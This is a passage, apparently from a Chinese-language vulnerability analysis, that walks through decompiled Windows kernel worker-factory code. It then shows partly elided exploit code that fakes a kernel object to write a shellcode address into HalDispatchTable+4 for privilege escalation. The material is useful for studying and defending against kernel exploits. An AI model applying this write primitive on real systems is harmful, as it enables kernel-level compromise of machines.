 ```
    v7 = Data; 
  } 
  ………… 
  v10 = *v7; 
  ………… 
  result = ObReferenceObjectByHandle(Handle, 4u, ExpWorkerFactoryObjectType, AccessMode[0], &WorkerFactoryObject, 0); 
  ………… 
  if ( QueryClassInformation == 8 ) 
  { 
    ………… 
    *(_DWORD *)(*(_DWORD *)(*(_DWORD *)WorkerFactoryObject + 0x10) + 0x1C) = v10; // 写原语构造点 
    ObfDereferenceObject(WorkerFactoryObject); 
    return 0; 
  } 
  ………… 
}
```

从函数的反汇编代码来看， 我们可以将 4 个字节的数据写到受控地址处， 地址的控制是通过 WorkerFactory 对象 + 0x10 处的成员值间接计算得出的。 这里的几个要点为：

```
QueryClassInformation参数需要为8
CbData参数值需要是4
Data参数为需要写入的数据值（HalDispatchTable + 4）
```

所以， Exploit 中构造的写原语代码为 (参考 2)：

```
MyNtCreateWorkerFactory(&hWorkerFactory, GENERIC_ALL, NULL, hCompletionPort, (HANDLE)-1, NULL, NULL, 0, 0, 0);
BYTE WorkerFactory[0xA0] = { 0 };
…………
PBYTE pObj = WorkerFactory + 0x28;  // 跳过0x28字节ObjectHeader， 指向WorkerFactory对象的Body
…………
//任意写   把 *arg3 的内容 写入到  *( *(*object+0x10)+0x1C ) 
//*(*object+0x10)+0x1C = MyHalDispatchTable + 4 
//因为 *object 所以没办法在本对象内构造数据  
//所以需要另一个内存来构造数据 
BYTE y[0x14] = { 0 }; 
*(DWORD*)pObj = (DWORD)y; 
PBYTE py = y; 
//现在有一个内存y    *(y + 0x10) + 0x1C = MyHalDispatchTable + 4 
//所以 *(y+0x10) = MyHalDispatchTable + 4 - 0x1C  即可 
*(DWORD*)(py + 0x10) = MyHalDispatchTable + 4 - 0x1C; 
 
………… 
 
//写shellcode地址到HalDispatchTable + 4 
DWORD scAddr = (DWORD)Shellcode; 
MyNtSetInformationWorkerFactory(hWorkerFactory, 8, &scAddr, 4);
```
